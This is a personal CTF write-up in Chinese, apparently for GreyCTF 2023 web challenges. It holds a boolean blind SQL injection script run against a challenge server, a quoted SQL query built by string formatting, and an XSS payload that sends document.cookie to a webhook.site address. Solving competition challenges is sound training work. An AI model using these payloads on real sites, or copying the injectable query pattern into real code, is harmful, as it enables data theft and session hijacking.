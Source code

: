 
# web
### FETUS WEB
签到,直接搜索flag有两段,一拼接就可以
### 100 QUESTIOM
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230520230422.png)

```python
    db = sqlite3.connect("database.db")
    cursor = db.execute(f"SELECT Question FROM QNA WHERE ID = {qn_id}")
    qn = cursor.fetchone()[0]

    # check answer
    cursor = db.execute(f"SELECT * FROM QNA WHERE ID = {qn_id} AND Answer = '{ans}'")
    result = cursor.fetchall()
    correct = True if result != [] else False

```
由于是sqlite3,使用[网站](https://inloop.github.io/sqlite-viewer/)读取database.db文件
存在明显的布尔盲注
```python
import requests
import string


#flag=['{', '1', '_', 'c', '4', 'N', '7', '_', '5', '3', '3', '}', '#']
print(''.join(flag))
url="http://34.126.139.50:10513/?qn_id=100&ans=grsda' or substr((select Answer from qna where id=42),{0},1)='{1}'-- "
flag=[]
for i in range(5,18):
    for j in string.printable:
        result=requests.get(url.format(i,j))
        print(url.format(i,j))
        if "Correct" in result.text:
            flag.append(j)
            print(flag)
            break
```

### BaBy WEB
```python
@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == "GET":
        return render_template('index.html')
    
    message = request.form.get('message')
    if len(message) == 0:
        flash("Please enter a message") 
        return render_template('index.html')

    link = f"/ticket?message={quote(message)}"

    # Admin vists the link here
    visit(BASE_URL, f"{BASE_URL}{link}")

    return redirect(link)
```


感觉我的xss没问题啊
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230520233853.png)

p
---
```js
<script>document.location='https://webhook.site/(some_id)?cookie='+document.cookie;</script>
```
### Login Bot


![[greyctf 2023 2023-05-21 01.27.42.excalidraw]]
不会啊

---

1. send_post将webhook的url传进url列表,返回一个url序号
```python
resp = s.post(f'{BASE_URL}/send_post', data={    
	'title': 'test',
	'content': WEBHOOK_URL
})
```
2. send_post来访问这个置信url
```python
resp = s.post(f'{BASE_URL}/send_post', data={    
	'url': f'/url/{url_id}',
	'title': 'test',
	'content': WEBHOOK_URL
})
```

还是代码逻辑没看懂啊
# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-20   22:34